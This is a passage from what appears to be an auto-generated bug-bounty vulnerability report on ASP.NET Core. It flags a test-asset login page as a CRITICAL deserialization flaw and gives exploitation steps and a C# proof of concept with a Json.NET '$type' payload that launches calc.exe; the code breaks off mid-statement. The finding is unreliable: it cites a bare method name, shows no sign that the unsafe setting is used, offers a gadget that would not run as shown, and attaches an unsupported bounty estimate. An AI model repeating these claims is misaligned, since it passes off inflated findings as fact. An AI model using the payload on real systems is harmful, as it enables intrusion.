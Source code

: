 **Remediation:**
Use secure serialization methods, validate input types

**Bug Bounty Assessment:**
- **Estimated Value:** $15,000 - $40,000
- **Likelihood:** Very High
- **Justification:** CRITICAL severity deserialize_vuln vulnerability in .NET Core

**References:**
- https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data
- https://github.com/pwntester/ysoserial.net
- https://cwe.mitre.org/data/definitions/502.html

---

### 5. DESERIALIZE_VULN in Login.cshtml.cs

**Vulnerability ID:** DOTNET-28103
**Severity:** CRITICAL
**CVSS Score:** 9.5
**File:** /tmp/aspnetcore_analysis/src/Identity/testassets/Identity.DefaultUI.WebSite/Pages/Contoso/Login.cshtml.cs
**Line:** 54

**Description:**
Deserialization vulnerability - potential for remote code execution

**Impact:**
Remote code execution, data tampering, denial of service, privilege escalation

**Exploitation Steps:**
1. Identify deserialization endpoints accepting JSON/XML
2. Analyze serialization settings and type handling
3. Craft malicious payload with gadget chains
4. Submit payload to trigger object instantiation
5. Achieve code execution through deserialization

**Proof of Concept Code:**
```csharp

// VULNERABILITY: Insecure Deserialization
// FILE: /tmp/aspnetcore_analysis/src/Identity/testassets/Identity.DefaultUI.WebSite/Pages/Contoso/Login.cshtml.cs
// LINE: 54

// Vulnerable Code:
JsonConvert.DeserializeObject

// PROOF OF CONCEPT:
// 1. JsonConvert.DeserializeObject without type validation
// 2. Can lead to arbitrary object instantiation
// 3. Potential for remote code execution

// Malicious JSON Payload:
string maliciousJson = @"{
    ""$type"": ""System.Diagnostics.Process, System"",
    ""StartInfo"": {
        ""FileName"": ""calc.exe"",
        ""Arguments"": """"
    }
}";

// Exploitation:
// When this JSON is deserialized with TypeNameHandling.All:
var settings = new JsonSerializerSettings()
{
    TypeNameHandling = TypeNameHandling.All
```
